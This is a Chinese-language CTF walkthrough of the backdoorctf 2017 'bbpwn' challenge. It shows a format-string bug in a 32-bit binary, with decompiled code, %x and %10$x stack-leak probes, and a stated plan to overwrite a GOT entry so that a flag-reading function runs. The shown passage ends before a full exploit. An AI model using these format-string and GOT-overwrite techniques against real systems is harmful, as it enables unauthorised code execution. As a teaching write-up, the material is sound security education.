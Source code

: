 # 3.1 backdoorctf 17 bbpwn
查看文件：

```bash
vuln@ubuntu:~/nightmare/modules/10-fmt_strings/backdoor17_bbpwn$ file 32_new 
32_new: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=da5e14c668579652906e8dd34223b8b5aa3becf8, not stripped

[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[*] '/home/vuln/nightmare/modules/10-fmt_strings/backdoor17_bbpwn/32_new'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```
开启NX，栈不可写，动态链接的程序。运行程序以及反编译

```bash
vuln@ubuntu:~/nightmare/modules/10-fmt_strings/backdoor17_bbpwn$ ./32_new 
Hello baby pwner, whats your name?
aaaaaaaaaa
Ok cool, soon we will know whether you pwned it or not. Till then Bye aaaaaaaaaa

```
反编译代码：

```bash
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char s[200]; // [esp+18h] [ebp-200h] BYREF
  char format[300]; // [esp+E0h] [ebp-138h] BYREF
  unsigned int v5; // [esp+20Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  puts("Hello baby pwner, whats your name?");
  fflush(stdout);
  fgets(s, 200, edata);
  fflush(edata);
  sprintf(format, "Ok cool, soon we will know whether you pwned it or not. Till then Bye %s", s);
  fflush(stdout);
  printf(format);
  fflush(stdout);
  exit(1);
}

int flag(void)
{
  return system("cat flag.txt");
}
```
从上面的代码我们可以看到，fgets函数获取200个字节，然后sprintf函数把我们的输入保存到format变量中，最后使用printf函数输出。但是sprintf这里有个bug，如果我们输入的是格式化字符串(%p, %x, %s)这些，那么在printf那里输出的时候，就会打印出内存中的数据。

```bash
vuln@ubuntu:~/nightmare/modules/10-fmt_strings/backdoor17_bbpwn$ ./32_new 
Hello baby pwner, whats your name?
%x.%x.%x
Ok cool, soon we will know whether you pwned it or not. Till then Bye 8048914.bfb3b218.1
```
现在我们可以看到，它打印出了4个字节的16进制数据。因为PIE没有开启，所以我们可以确定GOT表中函数的地址，并且RELRO也没有开启，所以我们可以修改GOT表。我们可以把我们想要执行的函数的地址，写入到GOT表中，把表中某些函数的地址替换成为我们要执行函数的地址。比如我们要执行flag函数，那么我们把printf函数后面的fflush函数的地址替换成flag函数的地址，那么在执行fflush的时候，实际上是执行flag函数。

要利用这个漏洞，首先我们需要确定我们的输入点在栈中什么位置，我们现在输入一些字符串：

```bash
Hello baby pwner, whats your name?
000011112222.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
Ok cool, soon we will know whether you pwned it or not. Till then Bye 000011112222.8048914.bfdb4668.1.b73e35e8.36c.b73e9618.bfdb4914.bfdb46b4.bfdb46b0.30303030.31313131.32323232.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825
```
可以看到，在第10-12个位置，输出了我们一开始输入的000011112222，这3个位置的4个字节保存着我们输入的数据，因为是X86系统，所以这里需要4个字节。

```bash
Hello baby pwner, whats your name?
0000111122223333.%10$x.%11$x.%12$x.%13$x
Ok cool, soon we will know whether you pwned it or not. Till then Bye 0000111122223333.30303030.31313131.32323232.33333333
```